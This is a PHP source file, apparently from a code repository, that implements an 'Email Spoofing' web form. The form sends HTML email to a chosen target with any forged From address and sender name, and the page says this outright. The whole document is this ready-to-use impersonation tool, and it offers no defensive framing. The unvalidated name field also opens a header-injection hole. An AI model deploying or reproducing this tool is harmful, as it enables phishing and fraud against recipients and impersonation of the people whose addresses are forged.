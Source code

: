 ## Email Spoofing PHP

```php
<?php
if (isset($_POST["send"])) {
$to = $_POST["to"];
 $subject = $_POST["subject"];
 $message = $_POST["message"];
 $from = $_POST["from"];
 $name = $_POST["name"];
if (!(filter_var($to, FILTER_VALIDATE_EMAIL) && filter_var($from, FILTER_VALIDATE_EMAIL))) {
  echo "Email address inputs invalid";
   die();
 }
$header = "From: " .  $name . " <" . $from . ">\r\nMIME-Version: 1.0\r\nContent-type: text/html\r\n";
$retval = mail ($to, $subject, $message, $header);
if ($retval) {
  echo "Email sent.";
 } else {
  echo "Email did not send. Error: " . $retval;
 }
} else {
 echo 
 '<html>
  <head>
   <style> 
    input[type=submit] {
      background-color: #4CAF50;
      border: none;
      color: white;
      padding: 14px 32px;
      text-decoration: none;
      margin: 4px 2px;
      cursor: pointer;
      font-size: 16px;
    }
   </style>
  </head>
  <body>
<h2>Spoof Email</h2>
<form action="/send.php" method="post" id="emailform">
     <label for="to">To:</label><br>
     <input type="text" id="to" name="to"><br><br>
     <label for="from">From:</label><br>
     <input type="text" id="from" name="from"><br><br>
     <label for="name">Name (optional):</label><br>
     <input type="text" id="name" name="name"><br><br>
     <label for="subject">Subject:</label><br>
     <input type="text" id="subject" name="subject"><br><br>
     <label for="message">Message [HTML is supported]:</label><br>
     <textarea rows="6" cols="50" name="message" form="emailform"></textarea><br><br>
     <input type="hidden" id="send" name="send" value="true">
     <input type="submit" value="Submit">
   </form>
<p>An e-mail will be sent to the desired target with a spoofed From header when you click Submit.</p>
</body>
 </html>' ;
}
?>
```
